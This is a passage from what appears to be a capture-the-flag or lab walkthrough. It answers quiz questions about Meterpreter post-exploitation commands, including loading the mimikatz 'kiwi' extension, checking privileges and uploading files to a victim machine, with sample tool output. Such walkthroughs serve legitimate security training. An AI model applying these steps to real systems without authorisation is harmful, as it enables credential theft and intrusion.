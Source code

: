 `sysinfo`

5. This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it? 

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success
```

`load kiwi`

6. Let's go ahead and figure out the privileges of our current user, what command do we run?

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

`getprivs`

7. What command do we run to transfer files to our victim computer?

```
meterpreter > upload
Usage: upload [options] src1 src2 src3 ... destination

Uploads local files and directories to the remote machine.

OPTIONS:

    -h        Help banner
    -r        Upload recursively
```

`upload`
